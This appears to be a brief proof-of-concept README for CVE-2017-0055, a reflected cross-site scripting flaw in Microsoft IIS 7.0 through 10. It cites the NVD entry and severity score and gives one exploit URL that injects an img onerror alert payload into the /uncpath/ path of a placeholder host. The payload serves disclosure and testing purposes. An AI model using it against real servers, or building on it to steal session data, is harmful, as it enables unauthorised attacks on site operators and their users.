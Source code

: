 
# CVE-2017-0055 PoC

MICROSOFT IIS 7.0/7.5/8.0/8.5/10 /UNCPATH/ CROSS SITE SCRIPTING

Reference: https://nvd.nist.gov/vuln/detail/CVE-2017-0055

Base Score: 6.1
Severity: Medium



## Exploit:
http://vulniis/uncpath/%3Cimg%20onerror=alert('xss')%20src=/%3E:/


